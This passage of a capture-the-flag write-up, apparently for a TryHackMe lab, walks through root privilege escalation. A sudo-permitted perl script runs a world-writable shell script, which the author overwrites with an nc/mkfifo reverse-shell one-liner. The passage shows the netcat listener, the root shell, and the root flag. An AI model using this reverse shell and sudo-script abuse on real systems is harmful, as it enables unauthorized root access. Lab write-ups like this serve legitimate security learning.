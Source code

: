 ```bash
```
28. `cat /home/{USER}/{FILENAME3}.pl` to display the contents of perl script onto our terminal, which reveals a bash (.sh) script that's to be executed once this script gets executed
```bash
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
29. `cat /etc/{FILENAME4}.sh` to display the contents of the bash (.sh) script onto our terminal, which reveals a command sequence that's to be executed once this script gets executed that we'll adapt so that it matches our IP address and the chosen port number that we'll use for our second Netcat listener that this code sequence will make us connect to 
30. `ls -li /etc/{FILENAME4}.sh` to display the inode number and set permissions for the bash (.sh) script, which reveals that we can read, write and execute the file
```bash
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
```bash
$ ls -li /etc/copy.sh
1050508 -rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```
31. `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {MACHINE IP} {PORT NUMBER} >/tmp/f" > /etc/copy.sh` to replace the content of the bash (.sh) script with the same code sequence but instead have the target connect to our machine
32. `nc -lvnp {PORT NUMBER}` to open up another Netcat listener on the specified unoccupied port on our attack machine
33. `sudo /usr/bin/perl /home/itguy/backup.pl` to execute the backup perl file, which will connect to our second Netcat listener and spawn a Bourne shell (sh), creating another reverse shell but with root privileges
```bash
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.54.63 9998 >/tmp/f" > /etc/copy.sh
```
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9998
listening on [any] 9998 ...
```
```bash
$ sudo /usr/bin/perl /home/itguy/backup.pl
```
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9998
listening on [any] 9998 ...
connect to [10.6.54.63] from (UNKNOWN) [10.10.165.242] 38970
/bin/sh: 0: can't access tty; job control turned off
# 
```
34. `whoami` to verify that we're now logged in as root, which we are
35. `ls /root` to list the available files and directories within the target's **/root** directory, which reveals a root text file
36. `cat /root/{ROOT FLAG}.txt` to display the root file's contents onto our terminal, which ended up containing the root flag for this challenge
```bash
# whoami
root
```
```bash
# ls /root
root.txt
```
```bash
# cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```